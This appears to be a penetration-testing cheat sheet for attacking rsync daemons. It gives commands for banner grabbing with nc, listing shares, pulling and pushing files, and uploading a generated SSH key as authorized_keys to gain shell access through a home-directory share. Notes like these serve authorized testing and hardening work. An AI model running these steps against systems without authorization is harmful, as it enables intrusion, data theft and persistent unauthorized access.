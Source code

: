 # Rsync

## Enumerate

```
nc -nv <ip> 873
@RSYNCD: <ver>    you will receive a banner with the version, send back the same string to complete the login
#list             list all available shared folders
<folder name>     test if a folder requires authentication: if the server returns AUTHREQD a password is required
```

### List all files in folder

```
rsync -av --list-only rsync://<ip>/<share>
```

## Download/Upload

### Download all

```
mkdir ./shared
rsync -av rsync://<ip:port>/<share> ./shared
```

### Upload files

```
rsync -av <local folder> rsync://<ip>/<share>
```

#### Create and upload ssh key

Useful if the shared folder is the home of some user

```
mkdir ./.ssh
cd .ssh
ssh-keygen    #remember to set the destination to ./.ssh instead of the default one
cat id_rsa.pub > authorized_keys
cd ..
rsync -av ./.ssh rsync://<ip>/<share>
```

